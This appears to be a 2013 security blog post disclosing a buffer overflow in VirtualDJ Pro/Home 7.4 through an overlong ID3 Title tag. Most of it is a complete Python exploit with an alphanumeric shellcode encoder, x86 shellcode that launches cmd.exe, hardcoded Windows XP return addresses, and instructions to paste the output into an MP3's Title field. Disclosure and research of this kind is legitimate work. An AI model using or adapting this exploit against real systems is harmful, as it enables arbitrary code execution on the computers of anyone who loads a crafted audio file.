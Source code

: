 ```yaml
---
layout: post
date: 2013-04-20
title: VirtualDJ Pro/Home 7.4: Buffer Overflow
author: Alexandro Sanchez
---
```


I have found a buffer overflow vulnerability in [VirtualDJ Pro 7.4 and VirtualDJ Home 7.4](http://www.virtualdj.com/) and possibly previous versions of this software. After right-clicking a file and entering the "_File Infos_" > "_Cover..._" menu, VirtualDJ tries to find a cover for the given file on Google Images and stores the request URL in a buffer which looks like: `"http://images.google.com/images?q=X"` where `X` corresponds to the ID3 tag _Title_. Special characters of this tag are ignored, and any sequence of symbols (e.g. `' '`, `'-'`, `'_'`) is replaced with `'+'`. The problem is [once again](../2013-03-30-virtualdj-73-buffer-overflow/) that VirtualDJ does not check if the information stored in the ID3 tags is too big to fit in the buffer.

To exploit this vulnerability, I searched for a `call esp` instruction stored in an address that could be represented with alphanumeric characters, I found such instruction in 0x444D4C64, that is, `"dLMD"`. After entering this call, all the bytes after the _Fake Title_ + _Spaces_ + _Padding_ + `"dLMD"` will be executed. Since we can only use alphanumeric characters, we have to encode the shellcode and decode it in execution time using only bytes in range `[0-9A-Za-z]`. For this purpose I used a function from [ALPHA3](http://code.google.com/p/alpha3/). After that, the original shellcode will be decoded and executed.

```python
#Exploit: VirtualDJ Pro/Home <=7.4 Buffer Overflow Vulnerability 
#By: Alexandro Sanchez Bach | functionmixer.blogspot.com 
#More info: http://www.youtube.com/watch?v=Yini294AR2Q 

def encodeData(decoder, data, validValues):
    assert data.find("\0") == -1, "Shellcode must be NULL free"
    data += "\0" #End of shellcode 
    encData = decoder[-2:]
    decoder = decoder[:-2]
    for p in range(len(data)):
        dByte = ord(data[p])
        pxByte = ord(encData[p+1])
        bx, by = encoder(dByte ^ pxByte, validValues)
        encData += chr(bx) + chr(by)
    return decoder + encData
 
def encoder(value, validValues): 
      for bx in validValues:
        imul = (bx * 0x30) &amp; 0xFF
        for by in validValues:
            if imul ^ by == value: return [bx, by]
 

#Shellcode (e.g. run cmd.exe) 
shellcode  = "\xB8\xFF\xEF\xFF\xFF\xF7\xD0\x2B\xE0\x55\x8B\xEC"
shellcode += "\x33\xFF\x57\x83\xEC\x04\xC6\x45\xF8\x63\xC6\x45"
shellcode += "\xF9\x6D\xC6\x45\xFA\x64\xC6\x45\xFB\x2E\xC6\x45"
shellcode += "\xFC\x65\xC6\x45\xFD\x78\xC6\x45\xFE\x65\x8D\x45"
shellcode += "\xF8\x50\xBB\xC7\x93\xBF\x77\xFF\xD3"
retAddress = "\xED\x1E\x94\x7C" # jmp ESP ntdll.dll WinXP SP2 
shellcode += retAddress

#Arguments 
fakeTitle  = "Greatest Hits of the Internet - Nyan Cat"
while fakeTitle[0]  == " ": fakeTitle = fakeTitle[1:]
while fakeTitle[-1] == " ": fakeTitle = fakeTitle[:-1]
for i in fakeTitle:
    if i not in "0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz -":
        raise "Invalid characters in the fake title"
fakeTitle2 = fakeTitle.replace("-"," ")
while " " in fakeTitle2: fakeTitle2 = fakeTitle2.replace(" "," ")

#Exploit 
exploit =  fakeTitle + " "*1024 + "1"*(1026 - len(fakeTitle2)-1)
exploit += "dLMD" #RETN address 
exploit += "XXAI" #ESP := Baseaddr of encoded payload 
exploit += encodeData(
	"TYhffffk4diFkDql02Dqm0D1CuEE", #Baseaddr of encoded payload := ESP 
    shellcode,
    map(ord, list("0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz"))
)

print exploit
#Paste the generated code in the tag 'Title' of the MP3 file.
```

You can see a demo of this proof of concept at: https://www.youtube.com/watch?v=Yini294AR2Q.

## Log

* __2013-04-07__: Bug discovered. VirtualDJ was emailed about this a few days later.
* __2013-04-20__: Bug ignored. Exploit published.
